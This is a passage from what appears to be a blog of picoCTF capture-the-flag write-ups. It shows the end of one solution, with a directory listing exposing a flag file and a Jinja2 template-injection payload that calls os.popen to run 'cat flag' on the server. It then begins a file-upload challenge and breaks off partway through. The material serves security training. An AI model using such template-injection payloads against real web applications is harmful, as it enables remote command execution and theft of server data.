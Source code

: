 ```html
<!doctype html>
<h1 style="font-size:100px;" align="center">total 12
drwxr-xr-x 2 root root   32 Apr 12 10:09 __pycache__
-rwxr-xr-x 1 root root 1241 Mar  6 03:27 app.py
-rw-r--r-- 1 root root   58 Mar  6 19:44 **flag**
-rwxr-xr-x 1 root root  268 Mar  6 03:27 requirements.txt
</h1>
```

later,

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

---

## n0s4n1ty 1

### Challenge information

Challenge link: [https://play.picoctf.org/practice/challenge/482](https://play.picoctf.org/practice/challenge/482)

![_images\image.png](D:\s0c41dgvns.github.io\_images\picoEasyImages\image1.png)
/assets/images/picoEasyImages/image1.png
### Solution

The home page of the challenge site is like this with a simple file upload feature.

![pico image](/assets/images/picoEasyImages/image2.png)


Try uploading any file but not picture formats like JPG, PNG to check the security implementation of the developer.
